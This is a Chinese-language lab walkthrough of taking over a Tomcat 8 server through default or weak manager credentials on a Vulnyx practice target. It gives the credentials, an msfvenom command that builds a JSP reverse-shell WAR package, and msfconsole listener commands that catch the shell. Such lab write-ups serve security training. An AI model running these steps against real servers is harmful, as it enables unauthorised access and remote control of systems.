









## 漏洞原理

tomcat8环境下默认后台密码为tomcat/tomcat

未修改可能会导致未授权访问，或者管理员将密码设置为弱口令


## 影响版本

全版本（前提存在弱口令）


## 环境搭建

vlunyx简单靶机：Deploy

[Proton Drive](https://drive.proton.me/urls/K2MFXVCBYR#6tPKBbXzpqwF)

（但是该靶机提供了账号和密码）

```
tomacat：s3cret
```




## 漏洞复现

#### 进入后台登录页面

```
tomcat/s3cret
```




登陆后台




### msfvenom生成war包

```
msfvenom -p java/jsp_shell_reverse_tcp Lhost=<本机ip> lport=<监听端口> -f war -o <filename.war>
```




#### 上传war包





成功上传


### msfconsole开启监听

```
msfconsole
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set lhost 192.168.1.3
set lport 283
run
```




### 触发war包（点击）





成功弹回shell